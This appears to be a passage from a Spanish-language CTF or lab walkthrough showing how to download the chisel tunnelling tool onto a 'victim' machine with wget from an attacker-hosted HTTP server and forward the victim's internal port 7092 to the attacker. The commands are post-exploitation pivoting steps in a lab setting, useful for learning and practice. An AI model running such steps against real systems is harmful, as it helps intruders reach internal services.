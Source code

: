 Máquina atacante
```bash
chmod +x chisel
python3 -m http.server 80
```
![chisel_atacante](img/chisel_atacante.png)

Maquina víctima
```bash
wget http://10.0.2.15/chisel
chmod +x chisel
```
![chisel_victima](img/chisel_victima.png)

Y realizaremos el port forwarding, para visualizar la web local de la máquina víctima (puerto 7092) desde el navegador de nuestra máquina atacante en el puerto 7092 o el que le especifiquemos.

Maquina víctima
```bash
./chisel server -p 9090
```
![chisel_server_victima](img/chisel_server_victima.png)

Máquina atacante
```bash
./chisel client 10.0.2.32:9090 127.0.0.1:7092
```
![chisel_client_atacante](img/chisel_client_atacante.png)
